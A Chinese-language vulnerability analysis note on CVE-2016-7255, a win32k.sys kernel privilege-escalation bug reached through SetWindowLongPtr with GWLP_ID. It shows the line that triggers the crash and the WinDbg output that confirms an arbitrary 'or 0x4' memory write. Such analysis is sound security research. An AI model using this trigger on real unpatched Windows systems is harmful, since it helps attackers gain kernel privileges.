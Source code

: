 # CVE-2016-7255_Win内核提权漏洞分析笔记

> 2017-04-15, beijing, @elemeta

*本文的分析是基于 https://www.exploit-db.com/exploits/41015/ 的提权代码写的*

## 漏洞描述

漏洞出现在win32k.sys的xxxNextWindow函数中,该函数是用来处理ALT-TAB进程切换窗口的，
由NtSetWindowLongPtr()设置的不合适的参数可以在xxxNextWindow中给任意内存地址进行
or 0x4操作。

## 漏洞分析

- 实验环境：Windows 7 SP1 x64 (6.1.7601.17514)
- WIN32K.SYS：md5 = a89392a32ba98468710fd7e38318934b
- 分析工具：WinDbg、IDA 6.6

漏洞实现的第一个步骤是通过SetWindowLongPtr函数的`GWLP_ID`属性将任意地址设置到窗口
内核对象(tagMENU)中.

    LONG_PTR WINAPI SetWindowLongPtr(
        _In_ HWND     hWnd,
        _In_ int      nIndex,
        _In_ LONG_PTR dwNewLong
    );

`GWLP_ID`的值是-12(0FFFFFFF4h)，用来给子窗口设置一个ID值，该值的长度是一个指针大小。
我们修改Exploit程序让操作系统触发Bugcheck：

    // 这句是关键代码
    SetWindowLongPtr(hWndChild, GWLP_ID, (LONG_PTR)0x4141414141414141);

执行后出现BSOD，分析转储文件：

    0: kd> !analyze -v
       EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - 0x%p

       FAULTING_IP: 
       win32k!xxxNextWindow+99c
       fffff960`00193360 83482804        or      dword ptr [rax+28h],4   // 漏洞触发点

       CONTEXT:  fffff880040b1d10 -- (.cxr 0xfffff880040b1d10)
       rax=4141414141414141 rbx=0000000000000000 rcx=0000000000000000   // rax是写入的GWLP_ID的值
       rdx=fffff900c0800b90 rsi=fffff900c082a9d0 rdi=fffff900c082ab50
       rip=fffff96000193360 rsp=fffff880040b26f0 rbp=0000000000000002
       r8=0000000000000000  r9=0000000000000000 r10=fffff880040b2160
       r11=fffffa801a9b8750 r12=0000000000000001 r13=fffff900c082a9d0
       r14=fffff900c1ce3c30 r15=000000000000001b
       iopl=0         nv up ei pl nz na po nc
       cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
       win32k!xxxNextWindow+0x99c:
       fffff960`00193360 83482804        or      dword ptr [rax+28h],4 ds:002b:41414141`41414169=????????
